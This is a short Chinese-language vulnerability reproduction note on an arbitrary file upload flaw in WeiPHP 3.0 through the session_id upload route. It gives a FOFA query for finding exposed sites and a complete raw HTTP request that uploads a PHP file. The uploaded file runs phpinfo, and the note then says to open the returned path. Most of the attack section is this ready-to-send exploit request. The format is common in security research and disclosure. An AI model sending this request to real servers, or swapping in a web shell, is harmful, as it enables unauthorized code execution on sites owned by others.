 # WeiPHP3.0 session_id 任意文件上传漏洞

## 漏洞描述

WeiPHP3.0 session_id 存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件

## 漏洞影响

```
WeiPHP3.0
```

## FOFA

```
app="weiphp"
```

## 漏洞复现

登陆页面标识

![img](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202162318569.png)

发送请求包上传文件

```php
POST /index.php?s=%2FHome%2FFile%2Fupload%2Fsession_id%2Fscevs8hub3m5ogla05a421hb42.html HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 831
Content-Type: multipart/form-data; boundary=------------------------e37a54d7d5380c9f
Accept-Encoding: gzip

--------------------------e37a54d7d5380c9f
Content-Disposition: form-data; name="download"; filename="882176.php"
Content-Type: application/octet-stream

<?php
phpinfo();

--------------------------e37a54d7d5380c9f--
```

![img](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202162318518.png)

获取目录后访问回显的 path

![img](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202162318407.png)